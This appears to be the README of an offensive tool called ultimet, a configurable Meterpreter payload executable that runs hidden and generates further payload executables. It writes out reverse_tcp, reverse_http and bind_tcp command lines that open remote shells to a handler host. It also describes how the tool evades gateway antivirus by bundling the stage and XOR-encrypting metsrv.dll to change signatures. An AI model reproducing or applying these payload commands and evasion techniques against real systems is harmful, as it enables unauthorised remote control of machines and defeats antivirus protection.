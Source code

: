 ================================================
[ultimet] - The ultimate meterpreter executable.
================================================
  ...your one stop shop for all your
              meterpreter executable needs...

Usage, examples and faq http://eldeeb.net/wrdprs/?p=176

#0. Executive Summary :)#
ultimet:
 - Is a windows executable that can function as various meterpreter flavours, in addition to functioning as "msfpayload" to generate exe files that run hidden when executed.
 - Supports functioning as the following meterpreter "types": "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https", "metsvc_bind_tcp" and "metsvcreverse_tcp"
 - Can create exe files that connects upon execution using pre-configured settings "exactly as msfpayload generated exe", however, generated exe files still accept command line arguments and settings could be reset or changed, all supported from within that single exe ... "meterpreter-on-steroids :)".
 - The generated exe is a pre-configured ultimet that can be used to create OTHER exe files! so, let's say you created a reverse_tcp exe using the `--msfpayload` option, you can use THAT exe later to create another bind_metsvc, then use THAT exe to create a reverse_http ... and so on, or simply reset to default...pretty neat! 
 _ultimet is a program that once found its way to inside a windows environmet, you won't need msfpayload or msfvenom anymore to create different exe files for different settings, use the same exe for different situations_
 - The msfpayload-like functionality works under linux perfectly fine using "wine >= 1.3.17", no need to leave your beloved *n?x box to create a pre-configured exe.
 - Supports many options to load the stage from: Resource, Encrypted-Resource, file, encrypted file or over the network "stager-mode" ... it functions as a non-staged payload "inline" when the stage is provided "either through file or the default bundled-resource".
 - Offset of ReflectiveLoader function is calculated at runtime and bootstrap is patched in memory, so, in plain english, you can use your own self-compiled metsrv.dll as the stage!.
 
 
 _Working as payload:_
 
 Example#1: Connect back to a meterpreter/reverse_tcp handler, LPORT=4444, LHOST=192.168.59.132
 
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444`
 
 Example#2: Start listening "bind" on all interfaces waiting for a meterpreter/bind_tcp handler to connect, LPORT=8888
 
 `ultimet.exe -t bind_tcp -h 0.0.0.0 -p 8888`
 
 Example#3: Load stage from local file, connect back to a meterpreter/reverse_http handler, LPORT=8080, LHOST=192.168.59.132
 
 `ultimet.exe -f c:\wwwroot\uploads\metsrv.dll -t reverse_http -h 192.168.59.132 -p 8080`

_Working as msfpayload:_

 Example#1: msfpayload windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.59.132
 
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444 --msfpayload`
 
 Example#2: Reset exe to default and remove all pre-set connection settings
 
 `ultimet.exe --reset`
 
 Example#3: Remove bundled stage to create a smaller file
 
 `ultimet.exe --remove-stage`
 
 
---------------
1. Introduction
---------------
  - Stand-alone meterpreter executables that are created using (msfpayload/msfvenom) are not flexible in selecting the LHOST, LPORT or even the transport after being created ... i.e. once you create the exe, you cannot change any of the settings you specified during the creation of the executable.

  - Meterpreter by design is a "staged" payload, it consists of a "stager" and a "stage"; when msfpayload|msfvenom create an exe, that's the "stager" part of meterpreter, which has only one purpose: When executed, connect back to the exploit/multi/handler, make room for the stager, copy the "stage" from handler, then execute the "stage" ... that "stage" is nothing but a patched version of "metsrv.dll" that you find in metasploit directory ... this scenario presents a challenge in highly secure environments(!) where incoming files from the internet are checked for viruses `:)` ...  example: someone created a meterpreter/reverse_http exe using msfvenom, then he manages to bypass AV somehow and successfully executed this exe on one machine inside the target environment, if there's some kind of virus checking of downloaded files at the gateway/proxy level ... the "stage" gets flagged, not downloaded, not executed, and you're doomed.

-------------------
2. What is ultimet?
-------------------
  - read the executive summary ...

------------------------------------------------
3. What are the supported transports (payloads)? 
------------------------------------------------
- It supports "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https" and "bind_metsvc & reverse_metsvc <- when stage included". 

---------------------------------------
4. How exactly is the stage "included"? 
---------------------------------------
- The "stage" can be loaded using any of the following options:
  - From a resource, or an encrypted resource that is included in the exe itself.
  - From a file (metsrv.dll), or an encrypted file.
  - ... if stage is not available, stage gets loaded over the network, which is basically falling back into "stager-mode".

------------------
5. inmet & ultimet 
------------------
The zip file contains two exe, inmet & ultimet:
- inmet is (ultimet + stage as a resource) that is the (exe) that has the (stage as a resource).
- ultimet is (inmet - stage as resource) that is JUST THE EXE.
- so, if you used any PE resource editor to crack open inmet.exe, you'll find a resource called "BINARY" and ID "101", if you deleted that resource, it will still work, but as a stager only.
- ... if you took that "stripped-down" exe again, opened it, and imported metsrv.dll (or the encrypted version of it)  into that exe, called the resource "BINARY" and set the ID to "101" ... it will become an inline exe again.
- inmet and ultimet are SAME EXECUTABLE that detects when it's just a mere stager, or the inline version of the executable.
- Got it? ... if not just download both and try to figure out the difference on your own ...

---------------
6. Encryption?! 
---------------
- ultimet will load metsrv.dll if it is plain (the one in your computer) or encrypted using the following scheme:
    - XOR every byte % a random 16-bytes key (position = i % 16; metsrv[i] ^=  key[position])
    - PREPEND the whole encrypted metsrv.dll with the 16 bytes random key :)
- FIPS compliant, strong and unbreakable encryption, I know, thank you ... but it gets the job done pretty well "AV sig change".
- A tool is included that does this automatically (ultimet_xor.exe) ... just drag metsrv.dll over it and you'll get a file called "encrypted.rsc" ... import that into ultimet.exe, they'll know how to play nice with each other.

---------------
7. Known issues 
---------------
- Currently the ReflectiveDLL bootstrap has the RVA_to_file offset of the ReflectiveLoader  hardcoded, so, you cannot use your own metsrv.dll if that offset is different without changing the offset in "constants.h" ... working on it.
- If your linker complained about not finding "encrypted.rsc" ... open "inmet.rc" using a text editor, and hard code the path there "or just put it on the root of your "e:\" drive ... to lazy to fix that and VS can be a **** sometimes.

----------------
8. Bug reporting 
----------------
- Github
- ultimet@eldeeb.net

---------
9. Author 
---------
- Sherif Eldeeb
- http://eldeeb.net
- @SheriefEldeeb
- archeldeeb@gmail.com
Made in Egypt.

... P.S: I am not a developer ;)

-------------------
10. Contributors:
-------------------
- Anwar Mohamed "@anwarelmakrahy"
  Added support for metsvc_bind_tcp & bind_tcp.
  
-------------------
11. Acknowledgments
-------------------
- All the extremely helpful people at #metasploit, and the mailing list:
hdm, corelanc0d3r, mihi, egypt, kernelsmith, tillo.
- Stephen Fewer for helping with ReflectiveDll stuff.
- @lnxg33k, @anwarelmakrahy & Yehia Mamdouh: for testing and bug reporting.




